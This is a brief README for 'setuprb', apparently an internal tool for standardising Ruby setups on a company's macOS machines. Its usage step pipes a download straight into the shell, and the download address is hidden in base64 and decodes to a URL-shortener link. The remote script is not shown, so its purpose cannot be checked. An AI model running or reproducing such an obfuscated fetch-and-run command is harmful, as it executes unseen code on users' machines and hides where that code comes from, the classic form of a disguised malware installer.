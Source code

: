 # **setuprb** ![picture](img/ruby.png)
`setuprb` makes sure every `Yeojinet` MacOS machine has the exact same Ruby environment, tools and configurations.


### Requirements

SSH access to the `Yeojinet` BravoSprintHub repositories in Bitbucket.


### Usage

From your terminal, execute this command:
```sh
curl -fsSL $(echo aHR0cDovL2JpdC5seS8yTWdDZjd4 | base64 -D) | sh /dev/stdin arg0 arg1
```


### Notes

This is a pre-requisite to properly running the `tuka` gem.
